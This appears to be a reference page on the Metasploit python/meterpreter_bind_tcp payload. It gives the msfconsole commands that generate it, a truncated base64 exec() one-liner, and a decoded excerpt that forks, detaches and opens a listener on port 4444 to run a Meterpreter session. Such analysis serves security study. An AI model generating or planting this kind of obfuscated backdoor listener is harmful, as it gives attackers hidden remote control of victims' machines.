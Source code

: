 # python/meterpreter_bind_tcp (single payload)

## Generate

```
msf5 > use python/meterpreter_bind_tcp
msf5 payload(python/meterpreter_bind_tcp) > generate -f raw -o single.py
```
## Result
```python
import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('IyEvdXNyL2Jpbi9weXRob24KaW1wb3J0IGJpbmFzY2lpCmltcG9yd...
...)))
```

## Base64 Decoded Content
The meterpreter payload is invoked as follows (see end of file):
```python
...
_try_to_fork = TRY_TO_FORK and hasattr(os, 'fork')
if not _try_to_fork or (_try_to_fork and os.fork() == 0):
    if hasattr(os, 'setsid'):
        try:
            os.setsid()
        except OSError:
            pass
    if HTTP_CONNECTION_URL and has_urllib:
        transport = HttpTransport(HTTP_CONNECTION_URL, proxy=HTTP_PROXY, user_agent=HTTP_USER_AGENT,
                http_host=HTTP_HOST, http_referer=HTTP_REFERER, http_cookie=HTTP_COOKIE)
    else:
        bind_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

        bind_sock.bind(('0.0.0.0', 4444))

        bind_sock.listen(1)

        s, address = bind_sock.accept()

        transport = TcpTransport.from_socket(s)
    met = PythonMeterpreter(transport)
    # PATCH-SETUP-TRANSPORTS #
    met.run()
```

Full payload contents are stored in file `single_decoded.py`.
